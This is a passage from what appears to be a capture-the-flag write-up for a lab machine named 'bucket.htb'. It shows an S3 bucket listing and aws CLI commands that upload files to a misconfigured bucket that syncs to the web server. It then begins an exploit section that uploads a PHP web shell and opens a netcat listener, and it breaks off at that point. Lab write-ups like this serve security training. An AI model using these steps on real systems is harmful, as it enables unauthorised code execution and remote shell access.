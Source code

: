 			        },
			        "Size": 16486
			    },
		    	{
			        "LastModified": "2020-11-04T03:42:13.000Z",
			        "ETag": "\"dadef349eabdda42a5ff5118a5b9c229\"",
			        "StorageClass": "STANDARD",
			        "Key": "index.html",
			        "Owner": {
			        	"DisplayName": "webfile",
			        	"ID": "75aa57f09aa0c8caeab4f8c24e99d10f8e7faeebf76c078efc7c6caea54ba06a"
			        },
			        "Size": 5344
		    	}
		    ]
		}

	- these files looks like `bucket.htb` source files
	- these file sync in every min or less to the main server

- I try to upload file in the bucket and check if it is accessable from `bucket.htb`

	`aws --endpoint-url=http://s3.bucket.htb s3 cp test.html s3://adserver`

	  upload: ./test.html to s3://adserver/test.html

	`aws --endpoint-url=http://s3.bucket.htb s3 ls s3://adserver`

	  .                          PRE images/
	  2020-11-04 04:16:12       5344 index.html
	  2020-11-04 04:17:01         47 test.html

	`curl -I http://bucket.htb/test.html`

	  HTTP/1.1 200 OK
	  Date: Wed, 04 Nov 2020 04:17:18 GMT
	  Server: Apache/2.4.41 (Ubuntu)
	  Last-Modified: Wed, 04 Nov 2020 04:17:04 GMT
	  ETag: "2f-5b3404073f723"
	  Accept-Ranges: bytes
	  Content-Length: 47
	  Content-Type: text/html

- some notable things,
	- uploaded file sync only once and the automatically deleted after it
	- file takes 30-60sec to sync
	- I can upload php shell and access from the main server


# user Exploit

- **First**, upload php shell in the bucket 

	`aws --endpoint-url=http://s3.bucket.htb s3 cp shell.php s3://adserver`

- **Second**, open netcat listener
